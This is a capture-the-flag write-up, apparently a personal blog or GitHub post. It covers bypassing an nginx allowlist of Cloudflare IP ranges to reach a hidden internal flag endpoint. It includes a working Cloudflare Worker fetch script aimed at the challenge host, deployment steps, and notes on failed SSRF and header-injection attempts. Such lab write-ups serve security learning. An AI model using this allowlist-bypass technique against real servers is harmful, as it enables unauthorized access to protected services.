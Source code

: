 ![image](https://github.com/user-attachments/assets/1546a33e-4c14-4ed9-9f98-37e7ecc394d0)

## How the app works:
Web Server (the one we can access), quotes-api (internal), flag-api (internal & hidden)

Routes:	What Happens	Note
**/api/quotes** - server requests quotes-api/quotes	(Nothing we can control)
**/api/quotes/raw** - Server requests quotes-api/quotes/raw (Only place I can test SSRF)

## Working Exploit:

```
worker_processes  auto;

events {
    worker_connections  1024;
}

http {
    include       mime.types;
    default_type  application/octet-stream;

    access_log  /var/log/nginx/access.log;
    error_log   /var/log/nginx/error.log warn;

    sendfile        on;
    keepalive_timeout  65;

    server {
        listen 80;

        location / {
            # Private IPs
            allow 127.0.0.1;
            allow ::1;
            allow 172.18.0.0/16;
            allow 10.0.0.0/8;
            allow 172.16.0.0/12;
            allow 192.168.0.0/16;


            # Cloudflare IPs
            allow 103.21.244.0/22;
            allow 103.22.200.0/22;
            allow 103.31.4.0/22;
            allow 104.16.0.0/13;
            allow 104.24.0.0/14;
            allow 108.162.192.0/18;
            allow 131.0.72.0/22;
            allow 141.101.64.0/18;
            allow 162.158.0.0/15;
            allow 172.64.0.0/13;
            allow 173.245.48.0/20;
            allow 188.114.96.0/20;
            allow 190.93.240.0/20;
            allow 197.234.240.0/22;
            allow 198.41.128.0/17;

            deny all;

            proxy_pass http://localhost:5555;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_http_version 1.1;
        }
    }
}
```

Since nginx only allowed Cloudflare IP ranges, the intended solution was to abuse Cloudflare Worker to make the request for me. Cloudflare Worker runs on Cloudflare’s server so the request came from a trusted IP.

```
addEventListener('fetch', event => {
  event.respondWith(handleRequest(event.request))
})

async function handleRequest(request) {
  // Your SSRF Target
  const url = 'http://microservices-challenge.eqctf.com:5555/flag' 

  const res = await fetch(url)
  const body = await res.text()

  return new Response(body)
}
```
Steps:
1.	Go to Cloudflare and Create Worker
2.	Paste the code above
3.	Deploy
4.	Visit your Worker URL:
https://your-worker-name.username.workers.dev

Boom! the flag shows up. Deploy. Visit the Worker URL. And... boom. There’s the flag. 

![image](https://github.com/user-attachments/assets/3ed5dafa-8421-4695-bd30-1c6c17915ac7)

## My Process:

![image](https://github.com/user-attachments/assets/7b4c4db3-903f-4c7c-bd11-178c7d20e0d8) ![image](https://github.com/user-attachments/assets/3f8be58b-0d84-4f15-826d-115078904ef4)

When I saw the code using axios.get(), I knew it was making HTTP requests from the server side.

```
const express = require('express')
const axios = require('axios')
const app = express()

const QUOTES_API_URL = "quotes-api"
const FLAG_API_URL = "flag-api"

app.get('/api/quotes', async (req, res) => {
  try {
    const response = await axios.get(`http://${QUOTES_API_URL}/quotes`)
    res.json(response.data)
  } catch {
    res.status(500).send('internal error')
  }
})

app.get('/api/quotes/raw', async (req, res) => {
  try {
    const response = await axios.get(`http://${QUOTES_API_URL}/quotes/raw`)
    res.type('text').send(response.data)
  } catch {
    res.status(500).send('internal error')
  }
})

// we had to remove this endpoint to prevent the flag from being leaked
// app.get('/api/flag', async (req, res) => {
//     try {
//       const response = await axios.get(`http://${FLAG_API_URL}/flag`)
//       res.type('text').send(response.data)
//     } catch {
//       res.status(500).send('internal error')
//     }
// })

app.listen(7777)
```
I searched for SSRF with axios and found:
https://security.snyk.io/package/npm/axios
https://github.com/axios/axios/issues/6463

From there I learned about some common techniques like double request injection, header injection, and CRLF injection. So, I started testing. I changed methods, added random headers, modified Host header to flag-api, and played around with the request structure. After doing that for quite a while, I got tired of sending requests manually. I wrote a simple Python script just to help me test faster. Still nothing worked. At this point I had already spent almost 12 hours on this challenge. Testing, trying, and just staring at Burp and my terminal. It was really tiring and kind of broke me down because I felt like whatever I tried was not enough. After the CTF ended, I found out the intended solution was to use Cloudflare Worker. I tried it, and it worked instantly.



